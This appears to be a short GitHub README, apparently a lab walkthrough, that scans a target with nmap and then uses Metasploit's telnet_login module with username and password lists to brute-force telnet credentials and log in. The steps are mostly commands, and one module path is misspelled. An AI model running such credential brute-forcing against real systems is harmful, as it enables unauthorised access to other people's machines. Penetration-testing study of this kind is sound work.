 # Port-23-telnet-Linux-telnet
1.nmap -sV (target)
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/dea1ef26-fa27-4457-b5ec-502aebd30d15)
2.msfconsole

3.msf 6 > search telnet

4.msf 6 > use auiliary/scanner/telnet/telnet_login

5.msf 6 > show options 

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/f26392b9-0330-4b89-b132-75e07ca75113)
6.msf 6 > set RHOST (target ip)

7.msf 6 > set user_file (path user.txt)

8.msf 6 > set pass_file (path password.txt)

9.msf 6 > set stop_on_success true

![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/ebf68411-a4b7-4915-8029-b3334c4b66f9)
10. msf 6 > run
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/265bee3d-d499-4c4f-b132-d2b965dfe77a)
11.telnet <target>
![image](https://github.com/thanawut2903/Port-23-telnet-Linux-telnet/assets/159118913/9c38d3a8-1ef9-4560-a2d1-95fa6788b8e1)

Reference form : https://www.youtube.com/watch?v=lnl8qju0dLg&t=834s
